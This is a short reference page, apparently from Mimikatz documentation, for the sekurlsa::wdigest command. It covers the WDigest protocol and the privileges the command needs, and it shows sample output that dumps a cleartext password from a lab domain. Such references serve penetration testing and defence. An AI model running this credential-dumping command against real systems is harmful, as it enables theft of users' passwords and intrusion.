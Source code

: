 # wdigest

`sekurlsa::wdigest` lists WDigest credentials. According to Microsoft, [WDigest.dll](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778868\(v%3dws.10\)) was introduced in the Windows XP operating system. The Digest Authentication protocol is designed for use with Hypertext Transfer Protocol (HTTP) and Simple Authentication Security Layer (SASL) exchanges, as documented in RFCs [2617](https://datatracker.ietf.org/doc/html/rfc2617) and [2831](https://datatracker.ietf.org/doc/html/rfc2831).

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::wdigest

Authentication Id : 0 ; 135255778 (00000000:080fd6e2)
Session           : RemoteInteractive from 3
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/27/2021 1:22:05 PM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
        wdigest :
         * Username : m3g9tr0n
         * Domain   : hacklab
         * Password : Super_SecretPass1!
```
